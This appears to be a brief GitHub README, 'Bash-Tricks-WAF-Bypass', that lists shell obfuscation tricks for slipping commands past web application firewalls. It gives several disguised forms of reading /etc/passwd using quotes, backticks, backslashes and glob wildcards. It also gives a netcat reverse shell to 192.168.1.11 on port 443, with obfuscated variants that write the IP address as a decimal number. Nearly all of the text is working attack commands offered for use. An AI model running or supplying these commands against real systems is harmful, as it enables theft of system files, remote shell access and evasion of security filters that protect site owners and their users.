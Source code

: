 # Bash-Tricks-WAF-Bypass
#Some Bypass Tricks to Bypass WAF!

/bin/cat /etc/passwd
--------------------------------------------------------

/bin/cat /e`e`t`t`c``/p`a`a`s`s`s`sw`d`d``

/'b'i'n'/c'a't /'e't'c'/'p'a's's'w'd''

/"b"i"n"/c"a"t /"e"t"c"/"p"a"s"s"w"d""

/b\i\n/c\a\t /e\t\c/p\a\s\s\w\d

/???/c?t /e??/pa????

--------------------------------------------------------

/bin/nc -e /bin/bash 192.168.1.11 443
--------------------------------------------------------

/???/?c -e /???/b??h 3232235787 443

/?s?/b??/n? -e /???/b??h 3232235787 443

Here,
3232235787 is decimal of 192.168.1.11
/???      = /bin
/?c       = /nc
/?s?      = /usr
/b??h     = /bash


